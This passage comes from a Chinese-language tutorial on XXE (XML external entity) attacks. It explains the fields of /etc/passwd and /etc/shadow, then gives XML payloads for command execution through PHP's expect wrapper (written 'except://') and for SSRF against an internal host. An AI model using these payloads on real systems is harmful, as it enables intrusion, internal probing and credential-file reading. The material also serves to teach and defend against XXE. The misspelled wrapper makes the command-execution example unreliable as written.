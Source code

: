 > Linux系统中，所有用户（包括系统管理员）的账号和密码都可以在/etc/passwd和/etc/shadow这两个文件中找到，（/etc/passwd只有系统管理员才可以修改的，其他用户可以查看，/etc/shadow其他用户看不了）
> **/etc/passwd：**
> 上面每一行都代表一个用户，每一行又通过[:]分为七个部分。
> 
	1、账号名称
	2、原先用来保存密码的，现在密码都放在/etc/shadow中，所以这里显示x
	3、UID，也就是使用者ID。默认的系统管理员的UID为0，我们添加用户的时候最好使用1000以上的UID，1-1000范围的UID最好保留给系统用。
	4、GID，也就是群组ID
	5、关于账号的一些说明信息（暂时可以忽略）
	6、账号的家目录，家目录就是你登陆系统后默认的那个目录
	7、账号使用的shell
> **/etc/shadow：**
> 这里也是由[:]来进行分割，但是这里一共分出来九个栏目，每个栏目的解释如下：
> 
	1、账户名称（密码需要与账户对应的嘛）
	2、加密后的密码（总不能学CSDN放明文密码，是吧），如果这一栏的第一个字符为!或者*的话，说明这是一个不能登录的账户，从上面可以看出，ubuntu默认的就不启用root账户。
	3、最近改动密码的日期（不是日期吗，咋是一堆数字，别急，这个是从1970年1月1日算起的总的天数）。那怎么才能知道今天距1970年1月1日有多少天呢？很简单，你改下密码，然后看下这个栏目中的数字是多少就可以了！
	4、密码不可被变更的天数：设置了这个值，则表示从变更密码的日期算起，多少天内无法再次修改密码，如果是0的话，则没有限制
	5、密码需要重新变更的天数：密码经常更换才能保证安全，为了提醒某些经常不更换密码的用户，可以设置一个天数，强制让用户更换密码，也就是说该用户的密码会在多少天后过期，如果为99999则没有限制
	6、密码过期预警天数：如果在5中设置了密码需要重新变更的天数，则会在密码过期的前多少天进行提醒，提示用户其密码将在多少天后过期
	7、密码过期的宽恕时间：如果在5中设置的日期过后，用户仍然没有修改密码，则该用户还可以继续使用的天数
	8、账号失效日期，过了这个日期账号就不能用了
	9、保留的


## 2. 命令执行 ##
- php环境下，xml命令执行要求php装有`expect`扩展。而该扩展默认没有安装。

		<?xml version="1.0" encoding="utf-8"?> 
		<!DOCTYPE xxe [
		<!ELEMENT name ANY >
		<!ENTITY xxe SYSTEM "except://ls" >]>
		<root>
		<name>&xxe;</name>
		</root>

- 没安装

## 3. 内网探测(SSRF) ##
- `SSRF(Server-Side Request Forgery)`，服务器端请求伪造:

		1.内外网的端口和服务扫描
		2.主机本地敏感数据的读取
		3.内外网主机应用程序漏洞的利用
		4.内外网Web站点漏洞的利用 
		...

		<?xml version="1.0" encoding="utf-8"?> 
		<!DOCTYPE xxe [
		<!ELEMENT name ANY >
		<!ENTITY xxe SYSTEM "http://172.31.50.131:8000/ssrf_test.txt" >]>
		<root>
		<name>&xxe;</name>
		</root>
		